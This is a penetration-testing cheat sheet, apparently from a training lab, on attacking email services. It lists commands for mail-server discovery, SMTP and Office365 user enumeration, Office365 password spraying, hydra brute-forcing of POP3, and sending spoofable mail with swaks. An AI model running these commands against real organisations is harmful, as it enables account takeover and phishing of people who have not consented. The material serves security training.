 # Attacking Email Services

| Command                                                                                     | Description                                                                      |
| ------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| ```host -t MX microsoft.com```                                                                  | DNS lookup for mail servers for the specified domain.                            |
| ```dig mx inlanefreight.com \| grep "MX" \| grep -v ";"```                                     | DNS lookup for mail servers for the specified domain.                            |
| ```host -t A mail1.inlanefreight.htb.```                                                        | DNS lookup of the IPv4 address for the specified subdomain.                      |
| ```telnet 10.10.110.20 25```                                                                    | Connect to the SMTP server.                                                      |
| ```smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7```               | SMTP user enumeration using the RCPT command against the specified host.         |
| ```python3 o365spray.py --validate --domain msplaintext.xyz```                                  | Verify the usage of Office365 for the specified domain.                          |
| ```python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz```                         | Enumerate existing users using Office365 on the specified domain.                |
| ```python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz``` | Password spraying against a list of users that use Office365 for the specified domain. |
| ```hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3```                                   | Brute-forcing the POP3 service.                                                  |
| ```swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213``` | Send email using SWAKS (Swiss Army Knife for SMTP).                               |

